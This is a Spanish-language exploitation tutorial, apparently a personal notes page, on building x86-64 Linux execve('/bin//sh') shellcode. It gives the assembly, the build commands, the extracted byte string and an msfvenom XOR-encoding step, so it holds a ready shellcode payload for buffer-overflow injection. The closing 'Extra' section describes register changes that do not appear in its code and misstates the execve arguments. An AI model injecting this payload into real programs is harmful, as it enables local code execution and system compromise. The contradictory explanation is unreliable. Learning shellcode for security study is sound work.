 ## Bin/bash shellcode

El shellcode es una cadena de bytes en código máquina directamente ejecutado en la CPU.
Se suele introducir en el stack (parte de la memoria de un programa) mediante alguna falla de buffer overflow.

Para el shellcode, entramos en lo que se llama "Modo kernel" gracias a un tipo de funciones llamado "syscalls" que le dan el control 
del sistema al kernel durante la ejecución para hacer operaciónes mas privilegiadas. Estas funciones syscall como write() son en las que se 
basan las funciones de c como printf() al compilarse.

Hay un archivo en Linux bajo la ruta `/usr/include/x86_64-linux-gnu/asm/unistd_64.h` (en este caso 64 bits) donde están los indices de las funciones.
En este caso usaremos el 59 que es sys_execv. (Ej el 1 es write y el 60 es exit)

-----------------------

La programación en código máquina se basa en pasarle al registro rax el índice de la funcion syscall que queremos (en nuestro caso 59 para execv)
y en los registros rdi, rsi y rdx (por orden), los argumentos de esta función.

Si miramos el [manual de Linux](https://man7.org/linux/man-pages/man2/execve.2.html) vemos que execve nos pide tres argumentos:
`int execve(const char *pathname, char *const argv[], char *const envp[]);`
- **Path del binario a ejecutar** en este caso /bin/sh, que redondearemos a 8 bytes quedando /bin//sh (igualmente funcional), esto ira a RDI.
- **Argumentos**, en este caso no tenemos, sino que hay que poner la direccion del binario. A RSI
- **Variables de entorno**: no tenemos asi que sera "0". A RDX

Tanto lo que va en rdi como en rsi, como son cadenas de texto, hay que acabarlas en nulls (Ceros basicamente)
Es decir `execve(/bin/sh0x0, &/bin/sh, 0x000000000000000}`
Lo que haremos es meter esos argumentos en la memoria (rsp) y luego pasarlo de ahi a los registros.

-------------------------

Para pasar el "/bin//bash", hay que pasarlo a hexadecimal. Eso se puede hacer facilmente con Python:
`"0x" + "/bin//sh"[::-1].encode("utf-8").hex() -> 0x68732f2f6e69622f `

Codigo en assembly:
```asm
global _start 
section .text
_start:
    xor rax, rax ; primer null , rax=0 ; de RAX sacamos los Ceros
    push rax ; rsp = 0x000000000000000. 

    mov rbx, 0x68732f2f6e69622f ; /bin//sh (8 bytes, o sea, alineado)
    push rbx ; rsp:  0x68732f2f6e69622f    0x000000000000000. -> Ahora la pila tiene el primer argumento (/bin//sh, 0x0)
    mov rdi, rsp ; rdi 0x68732f2f6e69622f /bin//sh -> Esto de la pila lo metemos en rdi como primer argumento

    push rax ;           otro null; rsp  0x000000000000000  0x68732f2f6e69622f   0x000000000000000
    mov rdx, rsp ;       rdx = 0x000000000000000 (Tercer argumento)

    push rdi ;          dirección de /bin/sh en la pila ->  rsp 0x00007fffffffdeb0  0x000000000000000 0x68732f2f6e69622f  0x000000000000000
    mov rsi, rsp          ; rsi -> 0x7fffffffdea0  (0x68732f2f6e69622f en el stack)

    add rax, 59 ;       Llamamos a execve
    syscall  ; lo ejecutamos
```
Para que entendamos como está puesto todo:  
- La pila  
```
| rsp   |    0x7fffffffdea0  | 0x7fffffffdea8     | 0x7fffffffdeb0               |    0x7fffffffdeb8 |
| ---   | ------------------ | ------------------ | ---------------------------- | ----------------- |
| valor | 0x00007fffffffdeb0 |  0x000000000000000 | 0x68732f2f6e69622f (/bin//sh)| 0x000000000000000 | 
```
- Los registros:
```
  ; $rdi   : 0x007fffffffdeb0  →  "/bin//sh",0x0
  ; $rsi   : 0x007fffffffdea0  →  0x007fffffffdeb0  →  "/bin//sh"
  ; $rdx   : 0x007fffffffdea8  →  0x0000000000000000
```

------------------

Compilamos esto a un objeto y lo pasamos a una cadena de bytes.
```bash
└─$ nasm -f elf64 execv.asm -o execv.o
└─$ ld execv.o -o execv
└─$ ./execv
$ whoami
cucuxii
```

```bash
└─$ for i in $(objdump -d execv.o -M intel | grep "^ " | cut -f2); do echo -n "\\\x$i"; done                  
\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05
└─$ echo -ne "\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05" | msfvenom -f elf -e x64/xor -a x64 --platform linux > demo
└─$ ./demo
$ whoami
cucuxii
```
--------------------

## Extra: Otra version que funciona

```
global _start 
section .text

_start:
    xor rax, rax 
    push rax                    ; Colocar NULL en la pila
    mov rbx, 0x68732f2f6e69622f ; rbx = /bin//sh
    push rbx                    ; Meter "/bin//sh" en la pila
    mov rdi, rsp                ; Colocar la dirección de "/bin//sh" en rdi
    
    push rax                    ; Meter un 0x0 (NULL) en la pila
    mov rdx, rsp                ; Colocar NULL en rdx
    
    push rdi                    ; Colocar puntero a "/bin//sh" en la pila
    mov rsi, rsp                ; Meter el puntero en rsi
    
    add rax, 59                 ; Cargar el número de la llamada al sistema de execve en rax (59)
    syscall                     ; Realizar la llamada al sistema
```
- mov rdi, rsp se ha cambiado a mov rsi, rsp. Ahora, la dirección de /bin//sh se carga en rsi en lugar de rdi.
- mov rdx, rsp se ha cambiado a mov rax, rsp. Ahora, NULL se carga en rax en lugar de rdx.
- mov rsi, rsp se ha cambiado a mov rdi, rsp. Ahora, la dirección de /bin//sh se carga en rdi en lugar de rsi.

La razón por la que esto funciona es que la llamada al sistema execve toma los siguientes argumentos en los registros:

- rax: El número de la llamada al sistema.
- rdi: El primer argumento (en este caso, la dirección de la cadena /bin//sh).
- rsi: El segundo argumento (en este caso, NULL).
- rdx: El tercer argumento (en este caso, NULL).
